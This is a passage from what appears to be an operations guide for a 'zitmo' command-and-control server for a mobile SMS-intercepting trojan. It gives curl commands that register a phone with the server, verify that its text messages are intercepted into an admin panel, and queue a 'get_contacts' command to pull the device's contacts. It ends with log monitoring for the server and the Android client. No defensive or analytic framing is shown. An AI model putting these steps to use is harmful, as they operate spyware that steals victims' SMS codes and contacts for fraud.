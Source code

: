 **Test Registration:**
```bash
# Send test registration
curl -X POST http://10.0.0.10:5000/register \
  -H "Content-Type: application/json" \
  -d '{
    "device_id": "test-001",
    "device_info": "Test Device",
    "phone_number": "+84900000000",
    "operator": "Test"
  }'
```

**Test SMS Interception:**
1. Send SMS to test device
2. Check admin panel
3. Verify SMS appears

### 5.3 Command Testing

```bash
# Add test command
curl -X POST http://10.0.0.10:5000/admin/add_command \
  -H "Content-Type: application/json" \
  -d '{
    "device_id": "test-001",
    "command_type": "get_contacts",
    "command_data": "{}"
  }'
```

## 6. Monitoring & Maintenance

### 6.1 Log Monitoring

**Server logs:**
```bash
# Real-time monitoring
tail -f zitmo_cnc.log

# Search for errors
grep ERROR zitmo_cnc.log

# Log rotation
logrotate -f /etc/logrotate.d/zitmo
```

**Client logs:**
```bash
# View Android logs
adb logcat | grep -i zitmo
```

### 6.2 Database Maintenance
